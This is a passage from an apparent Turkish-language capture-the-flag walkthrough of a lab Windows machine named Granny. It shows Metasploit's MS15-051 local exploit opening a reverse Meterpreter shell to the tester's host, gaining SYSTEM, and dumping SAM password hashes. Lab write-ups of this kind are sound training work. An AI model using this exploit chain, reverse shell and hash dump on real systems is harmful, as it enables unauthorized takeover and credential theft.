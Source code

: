 Çıkan sonuçlardan `exploit/windows/local/ms15_051_client_copy_image` modülünü kullanmayı deneyebiliriz.

## MSF - Privilege Escalation

```text
use exploit/windows/local/ms15_051_client_copy_image
```

Gerekli olan seçenekleri ayarladıktan sonra modülü çalıştırıyoruz:

```text
run
```

```text title="Output"
[*] Started reverse TCP handler on 10.10.14.26:4444
[*] Launching notepad to host the exploit...
[+] Process 844 launched.
[*] Reflectively injecting the exploit DLL into 844...
[*] Injecting exploit into 844...
[*] Exploit injected. Injecting payload into 844...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.10.10.15
[*] Meterpreter session 2 opened (10.10.14.26:4444 -> 10.10.10.15:1031) at 2020-09-03 10:35:01 +0000
```

Son olarak yetkilerimizin daha da artmış olduğunu aşağıdaki komut ile görebiliriz:

```text
getuid
```

```text title="Output"
Server username: NT AUTHORITY\SYSTEM
```

## MSF - Dumping Hashes

```text
lsa_dump_sam
```

```text title="Output"
[+] Running as SYSTEM
[*] Dumping SAM
Domain : GRANNY
SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb
Local SID : S-1-5-21-1709780765-3897210020-3926566182

SAMKey : 37ceb48682ea1b0197c7ab294ec405fe

RID  : 000001f4 (500)
User : Administrator
  Hash LM  : c74761604a24f0dfd0a9ba2c30e462cf
  Hash NTLM: d6908f022af0373e9e21b8a241c86dca

RID  : 000001f5 (501)
User : Guest

RID  : 000003e9 (1001)
User : SUPPORT_388945a0
  Hash NTLM: 8ed3993efb4e6476e4f75caebeca93e6

RID  : 000003eb (1003)
User : IUSR_GRANPA
  Hash LM  : a274b4532c9ca5cdf684351fab962e86
```